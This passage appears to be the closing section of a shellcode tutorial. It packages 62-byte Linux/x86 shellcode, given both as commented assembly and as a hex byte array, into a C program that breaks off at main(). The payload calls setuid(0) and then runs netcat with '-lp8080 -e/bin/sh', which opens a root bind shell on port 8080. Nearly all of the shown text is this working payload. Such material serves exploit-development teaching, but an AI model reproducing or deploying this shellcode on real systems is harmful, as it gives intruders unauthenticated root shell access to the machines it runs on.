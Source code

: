 # The end of the journey

What's left is to package it in a C program. 

```c
/*
Shellcode: Linux/x86 - setuid(0) & execve("/bin/nc", ["/bin/nc", "-lp8080", "-e/bin/sh"], NULL) - 62 bytes
Written by: Iliya Dafchev
Date: 15 April 2017

section .text  ; defines code section

global _start  

_start:         ; entry point
  xor ebx, ebx      ; XOR ebx with itself. The result is 0 and stored in ebx.
  push byte 0x17
  pop eax           ; Load number 0x17 (setuid) in eax
  int 0x80          ; call setuid(0)
  
  xor edx, edx      ; Use edx as null byte
  
  push edx          ; null termination for '/bin//nc'
  push 0x636e2f2f   ; cn//
  push 0x6e69622f   ; nib/
  mov ebx, esp      ; Now ebx points to the '/bin//nc' string
  
  push edx          ; null termination for '-lp8080'
  push byte 0x30    ; 0
  push word 0x3830  ; 80
  push 0x38706c2d   ; 8pl-
  mov eax, esp      ; Now eax points to the '-lp8080' string
  
  push edx          ; null termination for '-e/bin/sh'
  push byte 0x68    ; h
  push 0x732f6e69   ; s/ni
  push 0x622f652d   ; b/e-
  mov ecx, esp      ; Now ecx points to the '-e/bin/sh' string
  
  push edx  ; null termination for the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  push ecx  ; points to '-e/bin/sh'
  push eax  ; points to '-lp8080'
  push ebx  ; points to '/bin//nc'
  mov ecx, esp ; Now ecx points to the beginning of the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  
  push 0xb  ; 11 (0xb) is the syscall number of execve
  pop eax   ; load 0xb in eax
  int 0x80  ; call execve('/bin//nc', ['/bin//nc', '-lp8080', '-e/bin/sh'], 0)
*/

#include <stdio.h>
#include <string.h>

char shellcode[] =    "\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52"
                                "\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e"
                                "\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68"
                                "\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68"
                                "\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89"
                                "\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58"
                                "\xcd\x80";

int main()  {
```